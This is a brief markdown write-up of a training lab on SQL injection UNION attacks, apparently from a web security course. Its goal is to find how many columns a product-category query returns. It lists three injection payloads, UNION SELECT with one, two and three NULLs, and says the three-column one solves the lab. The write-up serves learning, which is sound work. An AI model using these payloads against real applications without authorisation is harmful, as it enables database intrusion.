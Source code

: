 # SQL injection UNION attack, determining the number of columns returned by the query
- SQL injection vulnerability in the product category filter.
- results from the query are returned in the application's response
- use a UNION attack to retrieve data from other tables
- determine the number of columns that are being returned by the query
# Goal
- determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values
# solving the Lab 
- we try the union method for determining the number of columns
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
- inserting the last query solves the lab
